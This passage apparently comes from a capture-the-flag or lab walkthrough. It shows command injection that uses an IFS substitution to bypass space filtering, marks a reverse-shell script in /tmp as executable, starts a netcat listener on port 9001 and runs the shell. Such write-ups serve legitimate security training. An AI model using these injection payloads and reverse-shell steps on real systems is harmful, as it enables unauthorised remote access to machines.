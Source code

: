 <figure><img src="../../.gitbook/assets/Untitled 18 (7).png" alt=""><figcaption></figcaption></figure>

Next we have to provide executable permission to the reverse shell file to execute it. You can do this by supplying the following command.

```bash
$(IFS=_;command='chmod_777_/tmp/revshell.sh';$command;)
```

<figure><img src="../../.gitbook/assets/Untitled 19 (7).png" alt=""><figcaption></figcaption></figure>

No error from the response and thus we have successfully updated the file permissions. Now its time to execute the reverse shell. But before that we have to start a `netcat` listener on our local machine on port `9001`.

<figure><img src="../../.gitbook/assets/Untitled 20 (8).png" alt=""><figcaption></figcaption></figure>

Finally, its time to execute the reverse shell, supply the following command to do so.

```bash
$(IFS=_;command='/tmp/revshell.sh';$command;)
```

<figure><img src="../../.gitbook/assets/Untitled 21 (7).png" alt=""><figcaption></figcaption></figure>
